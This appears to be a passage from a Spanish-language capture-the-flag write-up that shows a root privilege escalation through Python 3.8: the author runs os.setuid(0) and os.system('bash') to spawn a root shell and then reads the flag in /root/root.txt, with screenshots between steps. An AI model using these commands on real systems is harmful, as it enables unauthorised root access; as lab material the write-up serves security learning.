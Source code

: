  ![Captura de pantalla -2022-05-07 14-53-07](https://user-images.githubusercontent.com/103068924/167516218-a13658d9-7756-425f-9ad9-3f0003d7e9d6.png)

Tras buscar información sobre vulnerabilidades bandas en Python3.8 y he encontrado los siguientes comandos que nos permite crear una shell en bash registrándonos automáticamente como `root`.
Para ello vamos a introducir los siguientes comandos:

    import os
    
![Captura de pantalla -2022-05-07 14-53-41](https://user-images.githubusercontent.com/103068924/167516619-1c9c3ac6-3d46-4cf4-81ec-0073e5e1a41b.png)
 
    os.setuid(0)
    
![Captura de pantalla -2022-05-07 14-54-29](https://user-images.githubusercontent.com/103068924/167516639-024bf781-d32c-4086-ae02-62cf686662ef.png)
    
    os.system("bash")
    
![Captura de pantalla -2022-05-07 14-54-58](https://user-images.githubusercontent.com/103068924/167516655-a20acc11-8352-4a4e-bc11-0ab7c7b2e02c.png)
   
![Captura de pantalla -2022-05-07 14-55-13](https://user-images.githubusercontent.com/103068924/167516669-79d3c0f6-cdc5-49a8-973f-7213ceb17d17.png)

Vemos como ha funcionado y ya tenemos nuestra shell en `bash` y si ejecutamos el comando `whoami` podemos ver como estamos registrados como `root`. Finalmente, podemos encontrar la flag del archivo root dentro del directorio
`/root/root.txt`.

![Captura de pantalla -2022-05-07 14-55-46](https://user-images.githubusercontent.com/103068924/167517012-2a3a59e2-936b-4d18-a8ca-dab713d8e85f.png)

![Captura de pantalla -2022-05-07 14-56-42](https://user-images.githubusercontent.com/103068924/167517029-673c71ca-21c2-4e7e-a8ee-b98ddbaedbd4.png)

 
    
